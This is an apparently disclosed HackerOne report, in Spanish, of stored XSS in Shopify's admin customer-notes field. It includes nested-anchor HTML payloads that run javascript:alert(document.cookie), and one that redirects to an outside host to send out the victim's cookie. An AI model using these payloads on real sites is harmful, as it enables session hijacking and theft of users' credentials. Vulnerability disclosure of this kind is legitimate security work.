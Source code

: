 # xss stored

## Report Details
- **Report ID**: 798599
- **URL**: https://hackerone.com/reports/798599
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2020-02-18T03:32:35.642Z
- **Disclosed**: 2020-04-03T07:27:26.531Z

## Reporter
- **Username**: davscol94
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Se encuentra un xss en las notas del cliente se requiere inicio de session, se encuentra en el campo notas de cliente

POC

https://macken22jorg.myshopify.com/admin/customers
https://macken22jorg.myshopify.com/admin/customers/2901321318444


<h1>holaaaaaaa||<a href="http://<a href="http://<a href="http://<a href="javascript:alert(document.cookie)" onmouseover="javascript:alert(document.cookie)">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">gle.com</a>  hhh

<h1>holaaaaaaa||<a href="http://<a href="http://<a href="http://<a href="javascript:window.location='https://growncheckerworl.com/cookie.php?cookie=document.cookie'" >aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">gle.com</a>  hhhk



Referencias:

https://www.imperva.com/learn/application-security/cross-site-scripting-xss-attacks/

## Impact

captura de cookies

## Attachments
- 1.png
- 2.png
- 3.png
- 4.png
- 5.png

